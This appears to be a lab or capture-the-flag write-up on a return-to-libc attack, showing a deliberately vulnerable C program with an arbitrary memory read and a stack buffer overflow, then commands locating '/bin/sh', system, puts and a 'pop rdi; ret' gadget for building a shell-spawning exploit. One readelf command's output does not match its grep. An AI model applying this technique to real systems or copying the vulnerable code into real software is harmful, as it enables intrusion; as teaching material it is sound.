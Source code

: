 

## Return to libc

### # Lab7

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  char addr[16];
  char buf[16];
  printf("You have one chance to read the memory!\n");
  printf("Give me the address in hex: ");
  read(0, addr, 0x10);
  unsigned long long iaddr = strtoll(addr, 0, 16);
  printf("\nContent: %lld\n", *(unsigned long long *)iaddr);
  printf("Give me your messege: ");
  read(0, buf, 0x90);
  return 0;
}
```

![image-20220107212802042](/assets/img/2022/image-20220107212802042.png)

```bash
strings -t x  ./libc-2.27.so| grep "/bin/sh"
1b3e9a /bin/sh

ROPgadget --binary ./libc-2.27.so --string "/bin/sh"
0x00000000001b3e9a : /bin/sh

readelf -a ./libc-2.27.so | grep "system"
   232: 0000000000159e20    99 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.2.5
   607: 000000000004f440    45 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1403: 000000000004f440    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
  
readelf -a ./libc-2.27.so | grep "system"
   191: 00000000000809c0   512 FUNC    GLOBAL DEFAULT   13 _IO_puts@@GLIBC_2.2.5
   422: 00000000000809c0   512 FUNC    WEAK   DEFAULT   13 puts@@GLIBC_2.2.5
   496: 00000000001266c0  1240 FUNC    GLOBAL DEFAULT   13 putspent@@GLIBC_2.2.5
   678: 00000000001285d0   750 FUNC    GLOBAL DEFAULT   13 putsgent@@GLIBC_2.10
  1141: 000000000007f1f0   396 FUNC    WEAK   DEFAULT   13 fputs@@GLIBC_2.2.5
  1677: 000000000007f1f0   396 FUNC    GLOBAL DEFAULT   13 _IO_fputs@@GLIBC_2.2.5
  2310: 000000000008a640   143 FUNC    WEAK   DEFAULT   13 fputs_unlocked@@GLIBC_2.2.5
  

ROPgadget --binary ./ret2libc --only "pop|ret" | grep "rdi"
0x00000000004007d3 : pop rdi ; ret
```
